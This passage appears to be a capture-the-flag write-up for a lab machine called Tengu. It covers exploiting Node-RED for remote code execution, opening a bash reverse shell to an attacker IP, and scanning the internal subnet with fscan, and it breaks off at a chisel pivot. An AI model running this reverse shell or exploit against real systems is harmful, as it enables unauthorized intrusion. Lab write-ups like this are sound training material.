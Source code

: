 After some enumeration we find this exploit : [https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/](https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/)

Run the script : 

```bash
python3 exploit.py http://10.10.208.103:1880
```
![alt text](<../assets/image_tengu/exploit nodered.png>)

Let's get a normal shell :

```bash
nc -lvnp 1234

> bash -c 'bash -i >& /dev/tcp/10.8.2.163/1234 0>&1'
```
now let's do a scan with fscan to see what's running on the machine :

```bash
./fscan -h 10.10.208.0/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 10.10.208.97    is alive
(icmp) Target 10.10.208.101   is alive
(icmp) Target 10.10.208.102   is alive
(icmp) Target 10.10.208.103   is alive
[*] Icmp alive hosts len is: 4
10.10.208.101:445 open
10.10.208.101:139 open
10.10.208.101:135 open
10.10.208.102:1433 open
10.10.208.102:445 open
10.10.208.101:88 open
10.10.208.103:22 open
[*] alive ports len is: 7
start vulscan
[*] NetBios 10.10.208.101   [+] DC:TENGU\DC
[*] NetInfo
[*]10.10.208.101
   [->]DC
   [->]10.10.208.101
```
Let's forward with chisel :
